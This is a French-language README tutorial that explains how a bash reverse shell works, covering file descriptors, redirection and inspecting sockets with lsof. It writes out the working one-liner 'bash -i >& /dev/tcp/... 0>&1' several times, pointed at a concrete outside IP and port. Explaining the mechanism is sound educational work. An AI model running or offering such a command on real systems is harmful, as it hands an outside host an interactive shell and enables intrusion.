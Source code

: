 # bash-reverse-shell

## `bash -i`

### File descriptors

[https://en.wikipedia.org/wiki/File_descriptor](https://en.wikipedia.org/wiki/File_descriptor)

> A file descriptor (FD, less frequently fildes) is a process-unique identifier (handle) for a file or other input/output resource, such as a pipe or network socket. 

![bash -i 01](./doc/bash_i_01.png?raw=true)

> Each Unix process (except perhaps daemons) should have three standard POSIX file descriptors, corresponding to the three standard streams: 0 (stdin), 1 (stdout), 2 (stderr).

* Le process bash `159936` a 3 file descriptors standards associés au terminal `0`.
* Le process bash `159992` a 3 file descriptors standards associés au terminal `1`.

### Ecriture dans un autre terminal

On peut écrire depuis un terminal vers un autre.

[https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them](https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them)

![bash -i 0](./doc/bash_i_0.png?raw=true)

### bash interactif

Lorsqu'on crée un bash interactif, il est associé au terminal de son process (bash) parent.

![bash -i 1](./doc/bash_i_1.png?raw=true)

[https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them](https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them)

## `bash -i >& /dev/tcp/64.226.92.57/4242`

### Redirection de stdout et stderr

[https://www.gnu.org/software/bash/manual/bash.html#Duplicating-File-Descriptors](https://www.gnu.org/software/bash/manual/bash.html#Duplicating-File-Descriptors)

En bash, l'opérateur `>&` redirige à la fois stdout et stderr sur la même destination.

Exemple :
```
root@my-next-app:~/work# pwd >& output.txt
root@my-next-app:~/work# cat output.txt
/root/work
root@my-next-app:~/work#
```

[https://www.reddit.com/r/linuxquestions/comments/kbdtqs/understanding_01_in_a_bash_reverse_shell/](https://www.reddit.com/r/linuxquestions/comments/kbdtqs/understanding_01_in_a_bash_reverse_shell/)

La commande `bash -i >& /dev/tcp/64.226.92.57/4242` :
* Crée une socket ("network file") vers 64.226.92.57, port 4242, en TCP
* Redirige stdout vers cette socket ("duplicate the resulting file to fd 1")
* Redirige stderr vers cette socket ("duplicate the resulting file to fd 2")

[https://www.scs.stanford.edu/07wi-cs244b/refs/net2.pdf](https://www.scs.stanford.edu/07wi-cs244b/refs/net2.pdf)

![bash -i + socket](./doc/bash_i_2.gif?raw=true)

### lsof

La commande `lsof -i -a -p <pid>` redonne les sockets (network files) utilisées par le pid

[https://unix.stackexchange.com/questions/235979/how-do-i-find-out-more-about-socket-files-in-proc-fd](https://unix.stackexchange.com/questions/235979/how-do-i-find-out-more-about-socket-files-in-proc-fd)

![lsof](./doc/lsof_1.gif?raw=true)

## `bash -i >& /dev/tcp/64.226.92.57/4242 0>&1`

La commande `bash -i >& /dev/tcp/64.226.92.57/4242 0>&1` :
* Crée une socket ("network file") vers 64.226.92.57, port 4242, en TCP
* Redirige stdout vers cette socket ("duplicates the resulting file to fd 1")
* Redirige stderr vers cette socket ("duplicates the resulting file to fd 2")
* "duplicates fd 1 to fd 0". Le file descriptor 0 (stdin) est la socket

![reverse shell](./doc/reverse_shell.gif?raw=true)